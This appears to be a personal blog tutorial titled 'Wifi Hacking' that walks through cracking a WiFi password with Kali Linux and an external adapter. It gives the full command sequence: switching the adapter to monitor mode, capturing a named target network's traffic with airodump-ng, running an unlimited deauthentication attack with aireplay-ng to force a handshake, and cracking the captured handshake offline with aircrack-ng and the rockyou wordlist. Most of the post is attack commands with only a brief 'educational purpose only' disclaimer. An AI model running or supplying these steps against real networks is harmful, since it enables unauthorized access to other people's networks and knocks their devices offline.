```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking
ogImage: https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-1.jpg

description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![Network Adapter](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-2.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
